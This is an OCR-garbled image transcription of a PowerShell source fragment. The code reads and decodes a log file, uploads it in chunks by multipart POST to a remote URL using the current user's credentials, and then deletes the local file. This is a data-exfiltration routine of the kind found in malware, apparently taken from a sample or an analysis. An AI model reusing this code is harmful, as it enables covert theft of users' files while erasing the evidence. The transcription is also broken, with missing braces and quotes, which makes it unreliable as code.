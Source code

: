 ```
if($testpath -eq $False)
return $bReturn
$hexdata = [IO.File]::ReadAllText($logpath)
$encletter = decode $hexdata
$nEncLen = $encletter.Length
$LF = "
$templen = 0x100000
$sum = 0
$szOptional = ""
$pUploadData = ""
Start-Sleep -Milliseconds 100
$readlen = $templen
if (($nEncLen - $sum) -lt $templen)
$readlen = $nEncLen - $sum
if ($readlen -ne 0)
$pUploadData = $encletter + $sum
$sum += $readlen
$pUploadData += "ending"
$sum += 9
$readlen = 6
Start-Sleep -Milliseconds 1
$boundary = "----WebKitFormBoundarywhpFxMBe19cSjFnG"
$ContentType = 'multipart/form-data
boundary=' + $boundary
$bodyLines = (
"--$boundary",
"Content-Disposition: form-data
name=
"MAX_FILE_SIZE
"$LF",
"10000000",
"userfile
filename=
"$upName
"Content-Type: application/octet-stream$LF",
$pUploadData,
"--$boundary"
) -join $LF
$psVersion = $PSVersionTable.PSVersion
$r = [System.Net.WebRequest]::Create($Url)
$r.Method = "POST"
$r.UseDefaultCredentials = $true
$r.ContentType = $ContentType
$enc = [system.Text.Encoding]::UTF8
$data1 = $enc.GetBytes($bodyLines)
$r.ContentLength = $data1.Length
$newStream = $r.GetRequestStream()
$newStream.Write($data1, 0, $data1.Length)
$newStream.Close()
if($php_post -like "ok")
echo "UpLoad Success
echo "UpLoad Fail
$bReturn = $False
`}` while ($sum -le $nEncLen)
function FileUploading($upPathName)
$bRet = $True
$testpath = Test-Path $upPathName
return $bRet
$UpL = UpLoadFunc $upPathName
if($UpL -eq $False)
$bRet = $False
echo "Success
del $upPathName
```